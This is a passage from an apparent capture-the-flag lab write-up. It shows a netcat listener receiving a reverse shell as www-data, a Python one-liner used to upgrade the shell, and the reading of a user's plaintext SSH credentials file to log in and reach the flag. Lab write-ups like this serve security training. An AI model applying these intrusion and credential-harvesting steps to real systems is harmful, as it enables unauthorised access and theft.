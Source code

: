 And we are now in the machine with the www-data account:

```bash
nc -lvnp 4444                 
listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.229.207] 56016
Linux ip-10-10-229-207 5.15.0-1039-aws #44~20.04.1-Ubuntu SMP Thu Jun 22 12:21:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 14:43:16 up  1:46,  0 users,  load average: 0.01, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (782): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-229-207:/$
```

We also have python so I am going to upgrade my shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

And after entering the zeamkish folder I noticed that he has the credentials for the ssh in plaintext:

```bash
ls -la
total 36
drwxr-xr-x 3 zeamkish zeamkish 4096 Jul  6  2023 .
drwxr-xr-x 4 root     root     4096 Jun 30  2023 ..
-rw-rw-r-- 1 zeamkish zeamkish    5 Jul  6  2023 .bash_history
-rw-r--r-- 1 zeamkish zeamkish  220 Jun  8  2023 .bash_logout
-rw-r--r-- 1 zeamkish zeamkish 3771 Jun  8  2023 .bashrc
drwx------ 2 zeamkish zeamkish 4096 Jun  8  2023 .cache
-rw-r--r-- 1 zeamkish zeamkish  807 Jun  8  2023 .profile
-rw-r----- 1 zeamkish zeamkish   27 Jun  8  2023 flag.txt
-rw-rw-r-- 1 root     zeamkish   34 Jun 11  2023 ssh_creds.txt
$ cat ssh_creds.txt
cat ssh_creds.txt
SSH CREDS
zeamkish
<redacted>
```

So now we are in as zeamkish and we can read the flag:

```bash
ssh zeamkish@10.10.229.207                   

zeamkish@10.10.229.207's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-1039-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jan 28 14:48:35 UTC 2024

  System load:  0.0               Processes:             130
  Usage of /:   7.5% of 58.09GB   Users logged in:       0
  Memory usage: 21%               IPv4 address for eth0: 10.10.229.207
  Swap usage:   0%

 * Ubuntu Pro delivers the most comprehensive open source security and
   compliance features.

   https://ubuntu.com/aws/pro

```